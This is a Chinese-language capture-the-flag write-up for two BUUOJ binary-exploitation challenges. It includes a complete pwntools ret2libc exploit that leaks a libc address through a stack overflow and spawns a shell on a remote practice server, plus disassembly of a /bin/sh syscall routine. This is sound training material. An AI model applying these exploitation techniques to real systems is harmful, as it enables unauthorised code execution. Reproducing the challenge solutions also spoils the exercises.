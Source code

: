 ## 0x14.铁人三项(第五赛区)_2018_rop

buf那里可以覆盖。

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  be_nice_to_people();
  vulnerable_function();
  return write(1, "Hello, World\n", 0xDu);
}

ssize_t vulnerable_function()
{
  char buf[136]; // [esp+10h] [ebp-88h] BYREF

  return read(0, buf, 0x100u);
}
```

leak read或者write函数地址都OK。

```python
from pwn import *
from LibcSearcher import LibcSearcher
context(log_level='DEBUG')
#io = process("./2018_rop")
io = remote('node3.buuoj.cn',26602)
elf = ELF('./2018_rop')
write_plt = elf.plt['write']
read_got = elf.got['read']
main = 0x80484C6
payload = 'a'*(0x88+4)+p32(write_plt)+p32(main)+p32(1)+p32(read_got)+p32(4)
io.sendline(payload)
read_add = u32(io.recv())
libc = LibcSearcher('read',read_add)
base = read_add - libc.dump('read')
sys_add = base+libc.dump('system')
bin_sh = base +libc.dump('str_bin_sh')
payload ='a'*(0x88+4) + p32(sys_add)+p32(0xdeadbeef)+p32(bin_sh)
io.sendline(payload)
io.interactive()
```



## 0x14.others_shellcode

就，，完全不知道这题想表达啥，可能就是想讲一下系统调用吧。

```asm
.text:00000550 getShell        proc near               ; CODE XREF: main+D↓p
.text:00000550 ; __unwind {
.text:00000550                 push    ebp
.text:00000551                 mov     ebp, esp
.text:00000553                 call    __x86_get_pc_thunk_ax
.text:00000558                 add     eax, (offset _GLOBAL_OFFSET_TABLE_ - $)
.text:0000055D                 xor     edx, edx        ; envp
.text:0000055F                 push    edx
.text:00000560                 push    68732F2Fh
.text:00000565                 push    6E69622Fh
.text:0000056A                 mov     ebx, esp        ; file
.text:0000056C                 push    edx
.text:0000056D                 push    ebx
.text:0000056E                 mov     ecx, esp        ; argv
.text:00000570                 mov     eax, 0FFFFFFFFh
```